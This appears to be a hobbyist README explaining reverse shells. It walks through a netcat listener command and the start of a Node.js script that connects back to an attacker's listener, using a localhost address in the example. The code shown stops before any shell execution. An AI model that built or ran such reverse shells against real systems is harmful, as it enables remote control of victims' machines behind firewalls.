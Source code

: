 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :
_
"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.


![](connected_reverse_shell.png)









